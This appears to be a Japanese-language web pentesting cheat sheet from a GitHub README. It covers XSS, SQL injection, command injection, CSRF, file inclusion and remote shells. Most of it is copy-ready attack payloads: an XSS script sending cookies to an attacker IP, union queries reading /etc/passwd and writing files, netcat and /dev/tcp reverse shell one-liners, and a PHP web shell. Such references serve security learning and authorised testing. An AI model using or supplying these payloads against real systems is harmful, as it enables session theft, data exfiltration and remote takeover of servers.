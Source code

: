 # MyCheatSheet ver 1.0

* Decode ツール
  1. [CrackStation](https://crackstation.net/)
  2. [DenCode](https://dencode.com/ja/)
  3. [CyberChef](https://gchq.github.io/CyberChef/)
* XSS
  1. `'>"><hr>`を使用して水平線を表示
  2. `<script>alert(1)</script>`でアラート表示
  3. `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
* SQL Injection
  1. 入力値に`'`を入力してエラーの有無を検証
     1. エラーが帰らない場合もある。
     2. 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。
     3. `' union select version() ; #` でdbのバージョン表示  *MariaDB
     4. `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
     5. `' union select cloume_namefrom table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
     6. `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
* OS Command Injection
    1. 入力値のあとに`;ping -c 3 127.0.0.1`を入力して検証
* CSRF
    1. 正規のリクエストURLを使用してリンクを作成 (URL短縮サービス等を利用すると判別が困難になる。)
    2. 作成したリンクからリクエストが通るかを検証(Refererを検証)
    3. PoCジェネレーターを使用するとHTMLを簡単に作れる。
       [PoC Generator](https://security.love/CSRF-PoC-Genorator/)
* File Inclusion(Remote)
    1. クエリストリングにファイル名があるかを確認
    2. phpinfo()を実行させるphpファイルを作成
    3. ローカルでhttpサーバを立てる`python -m http.server 1030`
    4. 攻撃したいURLの`file=`にローカルのphpファイルのパスを記述
* File Inclusion(Local)
    1. ファイルアップロード時にファイルパスを確認できるかを検証
* 遠隔からのシェル
  * ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
  * アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。
  * バインドシェル・リバースシェル netcatを使用
    1. 待ち受け　`nc -vlp 1027`
    2. 接続     `nc -v 192.168.XXX.XXX 1027 -e /bin/bash` (/bin/bashのところはwindowsならcmd.exe)
    3. ncがない場合の接続
       1. `bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1`
       2. `bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'`
    4. シェルの安定化
       1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
       2. `Ctrl-z`
       3. `stty raw -echo; fg`
       4. `export SHELL=[your shell]`
       5. `export TERM=[your terminal]`
  * Webシェル
    1. 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
    2. アップしたphpファイルを利用してweb経由でコマンド実行
        `<?php system($_GET["cmd"]); ?>`
